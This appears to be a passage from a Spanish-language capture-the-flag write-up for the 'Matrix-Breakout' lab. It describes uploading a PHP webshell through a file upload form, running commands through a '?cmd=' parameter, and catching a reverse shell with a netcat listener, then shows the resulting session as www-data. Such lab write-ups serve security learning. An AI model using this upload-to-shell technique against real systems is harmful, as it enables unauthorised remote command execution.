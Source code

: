 Si nos fijamos bien en la petición, vemos que nos da la opción de un mensaje y un archivo, vamos a intentar colar una webshell en php...

![](/assets/img/VH/Matrix-Breakout/burp1.png)

Ahora si accedemos al recurso en PHP, y le concatenanos `?cmd=(comando)` a la URL, nos damos cuenta que estamos ejecutando comandos, así que nos entablaremos una reverse shell

![](/assets/img/VH/Matrix-Breakout/web2.png)

![](/assets/img/VH/Matrix-Breakout/web3.png)

```shell
❯ nc -nvlp 443
listening on [any] 443 ...
connect to [192.168.1.84] from (UNKNOWN) [192.168.1.91] 46216
bash: cannot set terminal process group (617): Inappropriate ioctl for device
bash: no job control in this shell
www-data@morpheus:/var/www/html$ whoami
whoami
www-data
www-data@morpheus:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@morpheus:/var/www/html$ ip a
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
```
